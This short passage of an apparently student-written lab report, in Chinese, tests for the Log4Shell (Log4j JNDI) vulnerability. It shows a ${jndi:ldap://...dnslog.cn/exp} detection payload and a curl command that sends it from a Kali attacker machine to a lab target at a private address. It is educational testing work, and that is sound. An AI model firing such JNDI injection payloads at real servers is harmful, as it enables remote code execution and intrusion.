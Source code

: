 1.[DnsLog](http://dnslog.cn/)下获取专属随机子域名：`nxz5uf.dnslog.cn`，我们可以使用其进行构建漏洞检测payload：`payload="${jndi:ldap://nxz5uf.dnslog.cn/exp}"`

![dnslog下获取子域名](picture/dnslog下获取子域名.png)

2.使用kali-attacker进行漏洞存在性验证，直接利用课程中给出的示例形式`curl -X POST http://192.168.109.4:23480/hello -d 'payload="${jndi:ldap:nxz5uf.dnslog.cn/exp}"'`，会发现目标网址不支持POST方法的请求：

![课程示例使用出现报错](picture/课程示例使用出现报错.png)
